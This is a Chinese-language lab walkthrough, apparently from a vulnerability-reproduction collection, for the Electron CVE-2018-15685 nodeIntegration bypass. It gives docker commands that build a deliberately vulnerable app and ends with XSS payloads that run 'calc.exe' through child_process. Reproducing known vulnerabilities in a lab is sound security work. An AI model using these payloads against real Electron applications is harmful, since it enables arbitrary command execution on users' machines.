


Electron WebPreferences 远程命令执行漏洞（CVE-2018-15685）¶
Electron是由Github开发，用HTML，CSS和JavaScript来构建跨平台桌面应用程序的一个开源库。 Electron通过将Chromium和Node.js合并到同一个运行时环境中，并将其打包为Mac，Windows和Linux系统下的应用来实现这一目的。
Electron在设置了nodeIntegration=false的情况下（默认），页面中的JavaScript无法访问node.js的内置库。CVE-2018-15685绕过了该限制，导致在用户可执行JavaScript的情况下（如访问第三方页面或APP存在XSS漏洞时），能够执行任意命令。
参考链接：
- https://electronjs.org/blog/web-preferences-fix
- https://www.contrastsecurity.com/security-influencers/cve-2018-15685
编译APP¶
执行如下命令编译一个包含漏洞的应用：
docker compose run -e PLATFORM=win64 --rm electron
其中PLATFORM的值是运行该应用的操作系统，可选项有：win64、win32、mac、linux。
编译完成后，再执行如下命令，启动web服务：
docker compose run --rm -p 8080:80 web
此时，访问http://your-ip:8080/cve-2018-15685.tar.gz即可下载编译好的应用。
复现漏洞¶
在本地打开应用：

点击提交，输入框中的内容将会显示在应用中，显然这里存在一处XSS漏洞。
我们提交<img src=1 onerror="require('child_process').exec('calc.exe')">，发现没有任何反馈，原因就是nodeIntegration=false。
此时，提交POC（Windows）：
<img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');">
可见，calc.exe已成功弹出：
